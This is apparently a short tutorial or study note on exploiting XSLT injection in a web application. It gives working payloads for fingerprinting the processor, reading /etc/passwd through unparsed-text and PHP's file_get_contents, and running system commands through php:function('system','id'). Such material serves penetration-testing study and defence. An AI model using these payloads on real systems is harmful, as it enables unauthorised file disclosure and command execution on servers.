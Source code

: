 # Exploiting XSLT Injection
***

### Identifying XSLT Injection
#### For instance, a web application that displays basic information about some academy modules, and at the bottom of the page we can provide a username that is inserted into the headline at the top list.
#### Suppose the web application stores the module information in an XML document and displays the data using XSLT processing. Consequently, we may be able to execute XSLT injection if there is no sanitization before XSLT processing.
#### In order to test , we can try to insert a broken XML tag (`e.g. <`) to try to provoke an error in the web application.

### Information Disclosure
#### By injecting the following XSLT elements we can try to deduce some information about the XSLT processor:
```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

### Local File Inclusion (LFI)
#### Depending on the XSLT version and configuration of the XSLT library we can use several functions to read a local file.
#### For instance, the following XSLT uses the `unparsed-text` function to read a local file:
```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```
#### The `unparsed-text` function , only works from XSLT version 2.0 . For older versions we can use PHP functions , when the XSLT library is configured to support PHP.
#### Example using the `file_get_contents` function:
```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

### Remote Code Execution (RCE)
#### When an XSLT processor supports PHP functions, we can use a PHP function that executes a local system command to obtain RCE.
```xml
<xsl:value-of select="php:function('system','id')" />
```


